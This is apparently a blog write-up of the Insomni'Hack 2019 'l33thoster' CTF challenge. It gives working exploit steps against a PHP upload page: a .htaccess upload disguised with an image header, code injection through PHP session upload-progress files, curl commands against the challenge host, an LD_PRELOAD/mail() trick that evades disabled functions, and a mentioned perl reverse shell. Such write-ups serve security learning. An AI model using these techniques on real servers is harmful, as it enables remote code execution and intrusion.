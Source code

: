 ```yaml
---
layout: post
title: Insomni'Hack teaser 2019 l33thoster writeup
tags: web, ctf, rce, insomnihack
---
```


# Description
You can host your l33t pictures here.

# The Challenge
This challenge was a PHP challenge that allowed users to upload files in custom folder, the source code was given :
```php
<?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }

    if (in_array($ext, $disallowed_ext, TRUE)) {
        die("lol nice try, but im not stupid dude...");
    }

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "<?") !== FALSE) {
        die("why would you need php in a pic.....");
    }

    if (!exif_imagetype($tmp_name)) {
        die("not an image.");
    }

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) {
        die("lol noob, your pic is not l33t enough");
    }

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
}

echo "<h3>Your <a href=$userdir>files</a>:</h3><ul>";
foreach(glob($userdir . "*") as $file) {
    echo "<li><a href='$file'>$file</a></li>";
}
echo "</ul>";

?>

<h1>Upload your pics!</h1>
<form method="POST" action="?" enctype="multipart/form-data">
    <input type="file" name="image">
    <input type="submit" name=upload>
</form>
<!-- /?source -->
1
```	

## Ideas

My first thought was that the extension check was done without case check so changing the case could work.

Also the challenge suggested we couldn't use php tags `<?`, and  we need to make the file look like an image (bypass `exif_imagetype`) with defined size `1337x1337` 

# Solving the challenge

The challenge is basically asking for a `.htaccess` upload while bypassing all restrictions, we need a valid image header that will not break `.htaccess` syntax, which is `wbmp` because it starts with a null byte and `.htaccess` will ignore that line, we craft our `.htaccess` file and add a directive to make our custom extension files be interpreted as `PHP`.
![screen1.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen1.png)
We do the same thing to upload our php file with the custom extension the content isn't important.
![screen2.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen2.png)

The next step is to edit `.htaccess` file and add two more directives, the first one is disable php session upload_progress cleanup, and the second one is append file which will be a custom session one.

![screen3.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen3.png)
Note that PHP_SESSION_UPLOAD_PROGRESS will create a session file for me, and disabling the cleanup will not remove my files so I don't need to do any kind of race conditions.

```sh
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
Now requesting our `.xyz` file in the browser shows some serialized data with interested reflected values
![screen4.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen4.png)
so the file parameter is reflected here it's `file` and also whatever I put in PHP_SESSION_UPLOAD_PROGRESS, i'm gonna use one of them to inject my php code.
I'm going to intercept my curl request in burp and edit one of the parameters.
```sh
export http_proxy="http://127.0.0.1:8080/"
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
![screen5.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen5.png)
I changed the PHPSESSID value because the old one wasn't deleted, so we need to use a new one, need to change it in `.htaccess` as well.
Let's request our file in the browser and enjoy RCE.
![screen6.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen6.png)
Trying various command execution functions results in nothing so we'd better check `phpinfo`
![screen8.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen8.png)
It seems that `mail()` and `putenv()` aren't filtered, so we could overwrite `LD_PRELOAD` to our custom `.so` file and overwrite some function that mail calls.
I stumbeled across another problem of how to upload a valid `.so` file since we didn't have arbitrary upload , also `file_put_contents` and other file manipulation functions were filtered, the solution was to upload the file using our php script and `move_uploaded_file` function. 
_ for more details about compiling and generating .so file please check https://corb3nik.github.io/blog/alictf-2016/homework_
```sh
curl -vvv 'http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz?0=move_uploaded_file($_FILES[%22image%22][%22tmp_name%22],%20%22/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so%22);' -F 'image=@hack.so' -g
```
Next we need to execute the following PHP code to get shell command execution.

```php
	echo putenv("LD_PRELOAD=/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so");
  echo putenv("exec=".$_GET['cmd']);
  echo mail("a", "a", "a");
  show_source("/tmp/out.txt");
```

I have used a perl payload to get reverse shell, the final step was to bypass the captcha  in the `get_flag` binary in an automated way , I have used `PHP` for this.

```php
<?php


        $descriptorspec = array(
           0 => array("pipe", "r"),  
           1 => array("pipe", "w"),  
           2 => array("file", "/tmp/error-output.txt", "a")
        );

        $cwd = '/';
        $env = array();

        $process = proc_open('/get_flag', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {

            $res = eval('return '.explode(":", fread($pipes[1], 1024))[1].';');

            fwrite($pipes[0], $res);
             fclose($pipes[0]);

            echo fread($pipes[1], 1024);

            echo fread($pipes[1], 1024);

            $return_value = proc_close($process);

        }
?>
```
```sh
$ php -f /tmp/file.php

INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}
```
The flag is `INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}`.
